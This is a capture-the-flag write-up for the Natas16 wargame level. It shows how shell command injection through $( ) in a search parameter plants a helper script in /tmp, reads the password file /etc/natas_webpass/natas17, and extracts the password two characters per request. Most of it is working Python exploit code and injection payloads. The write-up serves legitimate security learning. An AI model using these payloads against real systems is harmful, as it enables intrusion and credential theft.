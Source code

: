 # Natas16
Cracking without brute-forcing

## Solution 1: exfiltrating the password 2-characters per request 

Vulnerabilities:
- Shell comannd injection using: $( ) and < >
- Read/Write/Execute access to /tmp folder

### Making use of large result set
This approach takes advantage of the large amount of possible return values, to minimize the number of requests needed to get the password.
In this case, only 16 requests were needed to exfiltrate the 32-characters password.

The file 'dictionary.txt' has 50253 unique rows, so an exploit can signal any value in the range 1-50253.
For example, to signal the value 9158 we can check what is the word that line in the dictionary => congratulations.
By providing _^congratulations$_ to the grep command, we should get the same word on the html output.
Wrapped with ^ and $ guarantees no characters before and after the search string.

On the client side, the response word could be the searched in a local copy of dictionary and the found line number would be the signaled number.

### "Shifter" Helper utility - pick one parameter from a list by its index
This bash script was needed to bypass pipes and quotes characters filters.
```
shift $1
echo $1
```

usage:
```
shifter.sh 3 100 200 300 400 500
```
will return 300

In order to install this script:
1. Encode it as base64.
```python
shifter_script = "shift $1\necho $1\n\n"
shifter_b64 = base64.b64encode(bytes(shifter_script,"ascii")).decode('ascii')
```

2. Write it to /tmp folder
```python
payload = f'$(echo -n {shifter_b64} > /tmp/shifter.b64)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```  

3. Base64 decode it
```python
payload = '$(base64 -d < /tmp/shifter.b64 > /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

4. Make it executable
```python
payload='$(chmod a+x /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

### Getting a copy of dictionary.txt
```python
r = requests.get(f'{base_url}/dictionary.txt', auth=auth)
diclines = r.text.splitlines() 
```

### Exfiltrating the password characters
Since the password has only ASCII characters (code < 128), each pair of characters packed as 16-bit unsigned intger would have the maximum value of:
127*256 + 127 = 32639. This fits nicely into the 50253 options available.

So, for each character pair, the request should perform:

* Convert the password string to a list of 16-bit unsigned int numbers (each pair of characters to a number)
```
od -An -tu2 -w64 < /etc/natas_webpass/natas17
```

* Pick a specific number from a list
```
/tmp/shifter.sh {index} {list of numbers}
```

* Search the dictionary for a specific line number:
```
sed -n {line_number}p < dictionary.txt
```

```python
matches = []
for pair in range(1,17): 
  payload=f'^$(sed -n $(/tmp/shifter.sh {pair} $(od -An -tu2 -w64 < /etc/natas_webpass/natas17))p < dictionary.txt)$'
  r = requests.post(base_url, data={"needle": payload}, auth=auth)
  reply_text = r.text.replace('\n', ' ').replace('\r', '')
  m = re.search('<pre>(.+)</pre>', reply_text)
  word = m.group(1).strip()
  matches.append(word)
```

Result processing:
The HTML result for each request is parsed using Regex to extract matching word.
That word is searched on the dictionary to get its line number.
The line number is split to two bytes that are converted to characters.

All the resulting characters are then combined to the target password

```python
elb = []
for m in matches:
  i = diclines.index(m)+1
  elb.append(i & 255)
  elb.append(i >> 8)

#password
print("".join([chr(c) for c in elb]))

#cleanup
payload = '$(rm /tmp/shifter.*)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```
